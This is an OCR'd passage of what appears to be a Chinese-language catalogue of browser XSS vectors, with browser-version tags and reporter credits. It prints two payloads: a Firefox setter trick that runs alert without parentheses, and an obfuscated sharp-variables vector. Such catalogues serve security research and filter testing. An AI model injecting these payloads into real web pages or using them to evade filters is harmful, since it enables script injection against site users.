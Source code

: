 *   safari latest

*   opera 15.0

*   opera latest

*   xss

*   css
*   google chrome
*   safari
*   trick
*   notation

*   #45

*   #92
*   #111
*   #112

reporter：.mario, LeverOne

## 纯 javascript 的向量

### 基于 Firefox setter 执行 Javascript#6test

在 Gecko/Firefox 里可以使用 setter 间接调用 Javascript 函数,而不需要括号.

```
<script>({set/**/$($){_/**/setter=$,_=1}}).$=alert</script> 
```

*   firefox 1.x
*   firefox 3.6.28

*   xss

*   dom
*   firefox
*   setter
*   proprietary

*   [`developer.mozilla.org/en/Core_JavaScript_1.5_Guide/Working_with_Objects#Defining_Getters_and_Setters`](https://developer.mozilla.org/en/Core_JavaScript_1.5_Guide/Working_with_Objects#Defining_Getters_and_Setters)

reporter：.mario

### 使用 sharp variables 执行 Javascript#15test

这个向量展示了 sharp variables 和循环引用能用与做混淆和隐式执行代码

```
<script>({0:#0=alert/#0#/#0#(0)})</script> 
```

*   firefox 2.x
*   firefox 11.0
